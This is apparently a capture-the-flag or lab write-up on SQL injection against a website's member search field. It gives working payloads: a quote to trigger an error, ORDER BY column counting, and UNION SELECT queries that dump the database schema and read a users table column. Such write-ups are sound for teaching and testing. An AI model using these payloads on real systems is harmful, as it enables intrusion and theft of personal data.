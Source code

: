# SQL Injection: Members

The members page of the website have an input field to search for members. Firstly we have to try if the input is vulnerable to SQL injection. Let's try a simple payload like `'` to see if we can get a SQL error message. There is the output:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```
This means that the input is vulnerable to SQL injection. NBut we have to find the number of columns in the table to be able to add a UNION SELECT statement. Let's try:
```SQL
1 ORDER BY 1 -- WORKING
2 ORDER BY 2 -- WORKING
3 ORDER BY 3 -- NOT WORKING
```
This means that the table has 2 columns. Now we can fake the first column with a number to simulate the id column and the second column with the result of an UNION SELECT. For example we can explore the database schema with the following query:
```SQL
1 UNION ALL SELECT table_name, GROUP_CONCAT(column_name) FROM information_schema.columns GROUP BY table_name
```
Now we can see the tables and columns of the database. We can see an `users` tables with the following columns:
```
town,last_name,first_name,user_id,country,planet,countersign,Commentaire
```
Let's check the `Commentaire` column values:
```SQL
1 UNION ALL SELECT 1, Commentaire FROM users
```
